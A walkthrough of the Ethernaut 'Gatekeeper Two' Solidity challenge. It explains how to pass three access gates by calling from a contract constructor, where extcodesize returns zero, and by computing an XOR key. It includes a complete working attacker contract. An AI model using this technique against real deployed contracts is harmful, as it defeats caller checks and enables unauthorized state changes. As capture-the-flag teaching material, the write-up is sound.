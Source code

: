 # Level 14: Gatekeeper Two

This is the level 14 of OpenZeppelin [Ethernaut](https://ethernaut.openzeppelin.com/) web3/solidity based game.

## Pre-requisites
- [Difference between `tx.origin` and `msg.sender`](https://ethereum.stackexchange.com/questions/1891/whats-the-difference-between-msg-sender-and-tx-origin)
- [Solidity Assembly](https://docs.soliditylang.org/en/v0.4.23/assembly.html) & [caller & extcodesize](https://docs.soliditylang.org/en/v0.4.23/assembly.html#opcodes) opcodes.

## Hack
Given contract:

```
contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

`player` has to set itself as `entrant`, like the previous level.

We are going to implement `GatePassTwo` contract to attack:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatePassTwo {
    ...
}
```

### gateOne
This is exactly same as level 4. An intermediary contract (`GatePassTwo` here) will be used to call `enter`, so that `msg.sender` != `tx.origin`.

### gateTwo
Second check involves solidity assembly code - specifically `caller` and `extcodesize` functions. `caller()` is nothing but sender of message i.e. `msg.sender` which will be address of `GatePassTwo`.
`extcodesize(addr)` returns the size of contract at address `addr`. So, `x` is assigned the size of the contract at `msg.sender` address. But size of a contract is always going to be non-zero. And to pass check, `x` must zero!

Here's the trick. See the footer note of Ethereum [Yellow Paper](https://ethereum.github.io/yellowpaper/paper.pdf) on page 11:<br>
_"During initialization code execution, EXTCODESIZE on the address should return zero, which is the length of the code of the account..."_

Rings some bells? During creation/initialization of the contract the `extcodesize()` returns 0. So we're going to put the malicious code in `constructor` itself. Since it is the `constructor` that runs during initialization, any calls to `extcodesize()` will return 0. Update `GatePassTwo` accordingly (ignore `key` for now):

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatePassTwo {
    constructor(address _gateAddr) public {
        bytes8 key = bytes8(uint64(address(this)));
        address(_gateAddr).call(abi.encodeWithSignature("enter(bytes8)", key));
    }
```
This will pass `gateTwo`.

### gateThree
Third check is basically some manipulation with `^` XOR operator.

As is visible from the equality check:
```
uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1
```

`_gateKey` must be derived from `msg.sender` (in `GatekeeperTwo`), which is same as `address(this)` in our `GatePassTwo`.

The `uint64(0) - 1` on RHS is max value of `uint64` integer (due to underflow). Hence, in hex representation:
```
uint64(0) - 1 = 0xffffffffffffffff
```

By nature of XOR operation:
```
If, X ^ Y = Z
Then, Y = X ^ Z
```

Using this XOR property, it can be deduced that:
```
uint64(_gateKey) == uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ uint64(0xffffffffffffffff)
```

So, correct `key` can be calculated in solidity as:
```solidity
bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ uint64(0xffffffffffffffff))
```

Final update to `GatePassTwo`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatePassTwo {
    constructor(address _gateAddr) public {
        bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ uint64(0xffffffffffffffff));
        address(_gateAddr).call(abi.encodeWithSignature("enter(bytes8)", key));
    }
}
```

Now deploy `GatePassTwo` with address of `GatekeeperTwo`, which will result in execution of malicious `constructor` code. And that will eventually register `player` as `entrant`.

Passed!


_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/heyNvN)_ 🙏
